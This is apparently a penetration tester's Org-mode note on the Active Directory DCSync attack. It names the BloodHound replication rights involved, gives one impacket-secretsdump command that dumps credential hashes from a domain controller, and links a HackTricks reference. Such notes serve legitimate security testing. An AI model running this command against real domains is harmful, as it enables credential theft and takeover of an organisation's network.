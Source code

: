 :PROPERTIES:
:ID:       91f542d8-ae30-47c5-a649-a38eaf949e0e
:END:
#+title: Pentest - Active Directory - DCSync
#+filetags: :exploit:pentest:windowsExploitation:
#+hugo_base_dir:../


* DCSync

In BloodHound

- GetChanges
- GetChangesAll

#+begin_src shell -n
impacket-secretsdump "<domain>/user:password"@"dc.domain.com"
#+end_src



[[https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync][hacktricks - DCSync]]
